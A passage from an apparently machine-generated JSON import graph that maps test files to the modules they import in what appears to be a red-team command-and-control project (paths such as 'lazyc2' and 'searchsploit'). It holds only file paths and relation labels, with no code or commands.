"cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_telemetry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_telemetry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_telemetry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_telemetry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_telemetry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_telemetry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_telemetry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_telemetry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_telemetry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_telemetry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_telemetry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_telemetry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_telemetry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_telemetry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_palette.py", "target": "cli/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_set_migration.py", "target": "cli/commands/_dormancy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_set_migration.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_set_migration.py", "target": "cli/commands/_dormancy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_set_migration.py", "target": "cli/commands/_dormancy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_set_migration.py", "target": "cli/commands/_dormancy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_set_migration.py", "target": "cli/registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_set_migration.py", "target": "cli/registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_set_migration.py", "target": "cli/registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_set_migration.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_set_migration.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_command_set_migration.py", "target": "cli/commands/_dormancy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_conditional_hooks_extended.py", "target": "modules/conditional_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_conditional_hooks_extended.py", "target": "modules/conditional_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_conditional_hooks_extended.py", "target": "modules/conditional_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_console_stdio.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_console_stdio.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_contract_manifest.py", "target": "scripts/check_contract_manifest.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core.py", "target": "core/crypto.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core.py", "target": "core/crypto.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core.py", "target": "core/crypto.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core.py", "target": "core/crypto.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core.py", "target": "core/validators.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core.py", "target": "core/validators.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core.py", "target": "core/validators.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core.py", "target": "core/validators.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core.py", "target": "core/validators.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core.py", "target": "core/validators.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core.py", "target": "core/protocols.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core.py", "target": "core/protocols.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core.py", "target": "core/protocols.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_command_bridge.py", "target": "core/command_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_command_bridge.py", "target": "core/command_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_command_bridge.py", "target": "core/command_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_command_bridge.py", "target": "core/command_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_command_bridge.py", "target": "core/command_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_command_bridge.py", "target": "core/command_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_command_bridge.py", "target": "core/command_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_command_bridge.py", "target": "core/command_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_command_bridge.py", "target": "core/command_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_command_bridge.py", "target": "core/command_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_config.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_config.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_config.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_config.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_config.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_config.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_config.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_config.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_config.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_config.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_config.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_config.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_config.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_config.py", "target": "core/payload_schema.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_config.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_config.py", "target": "core/payload_schema.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_config.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_config.py", "target": "core/payload_schema.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_defaults.py", "target": "core/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_defaults.py", "target": "core/payload_schema.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_defaults.py", "target": "lazyc2/blueprints/api.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_executor.py", "target": "core/executor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_executor.py", "target": "core/executor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_executor.py", "target": "core/executor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_executor.py", "target": "core/executor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_executor.py", "target": "core/executor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_executor.py", "target": "core/executor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_executor.py", "target": "core/executor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_executor.py", "target": "core/executor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_executor.py", "target": "core/executor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_executor.py", "target": "core/executor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_executor.py", "target": "core/executor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_executor.py", "target": "core/executor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_executor.py", "target": "core/executor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/obs_parser.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/obs_parser.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/obs_parser.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/obs_parser.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/playbook_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/playbook_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/cve_matcher.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/memory_store.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/memory_store.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/memory_store.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/llm_evaluator.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/llm_evaluator.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/llm_evaluator.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/integrations/searchsploit.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/integrations/searchsploit.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/integrations/misp_export.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/dashboard_bp.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/collab_bp.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/config_store.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/lazyown_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/lazyown_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/lazyown_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/lazyown_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/lazyown_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/lazyown_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/lazyown_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/lazyown_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/lazyown_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/lazyown_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/lazyown_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/lazyown_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/lazyown_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/lazyown_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/lazyown_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/lazyown_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/lazyown_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/session_reader.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/session_reader.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/session_reader.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/session_reader.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/session_reader.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/session_reader.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/reactive_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/reactive_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/reactive_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/reactive_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/reactive_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/reactive_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/reactive_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/session_rag.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/session_rag.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/session_rag.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/session_rag.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/session_rag.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/session_rag.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/threat_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/threat_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/threat_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/threat_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/threat_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/threat_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/threat_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/session_rag.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/session_rag.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/session_rag.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/threat_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/threat_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/threat_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/threat_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/atomic_enricher.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/atomic_enricher.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/atomic_enricher.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/atomic_enricher.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/atomic_enricher.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/atomic_enricher.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/atomic_enricher.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/atomic_enricher.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/atomic_enricher.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "skills/lazyown_parquet_db.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/session_rag.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_core_modules.py", "target": "modules/session_rag.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cors_behavior.py", "target": "lazyc2/security/cors.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cors_policy.py", "target": "lazyc2/security/cors.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_cors_socketio_regression.py", "target": "lazyc2/security/cors.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_credential_vault.py", "target": "core/credential_vault.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_credentials_rotation.py", "target": "cli/commands/cred_migrated.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_csrf_behavior.py", "target": "lazyc2/security/csrf.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_csrf_policy.py", "target": "lazyc2/security/csrf.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_daemon_control.py", "target": "skills/daemon_control.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_daemon_ctl_command_set.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_daemon_ctl_command_set.py", "target": "cli/commands/_dormancy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_daemon_ctl_command_set.py", "target": "cli/commands/daemon_ctl.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_daemon_ctl_command_set.py", "target": "cli/commands/daemon_ctl.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_daemon_ctl_command_set.py", "target": "cli/commands/daemon_ctl.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_daemon_ctl_command_set.py", "target": "cli/registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_daemon_ctl_command_set.py", "target": "cli/commands/daemon_ctl.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_daemon_ctl_command_set.py", "target": "cli/commands/misc_migrated.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_daemon_loop.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_daemon_loop.py", "target": "modules/planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_daemon_loop.py", "target": "modules/db.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_daemon_loop.py", "target": "skills/lazyown_objective.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_daemon_loop.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_daemon_loop.py", "target": "modules/obs_parser.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_dashboard_routes.py", "target": "modules/dashboard_bp.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_dashboard_routes.py", "target": "modules/dashboard_bp.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_dashboard_routes.py", "target": "modules/dashboard_bp.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_dashboard_routes.py", "target": "modules/dashboard_bp.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_dashboard_tui.py", "target": "cli/dashboard_tui.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_db.py", "target": "modules/db.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_dependencies.py", "target": "core/dependencies.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_detection_feed.py", "target": "modules/detection_feed.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_detection_feed.py", "target": "modules/detection_oracle.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_doctor.py", "target": "cli/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_doctor.py", "target": "cli/wizard.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_encoding_command_set.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_encoding_command_set.py", "target": "cli/commands/_dormancy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_encoding_command_set.py", "target": "cli/commands/encoding.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_encoding_command_set.py", "target": "cli/commands/encoding.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_encoding_command_set.py", "target": "cli/commands/encoding.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_encoding_command_set.py", "target": "cli/registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_encoding_command_set.py", "target": "cli/commands/encoding.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_encoding_command_set.py", "target": "cli/commands/misc_migrated.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_gates.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_gates.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_gates.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_gates.py", "target": "modules/intercept.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_gates.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_gates.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": 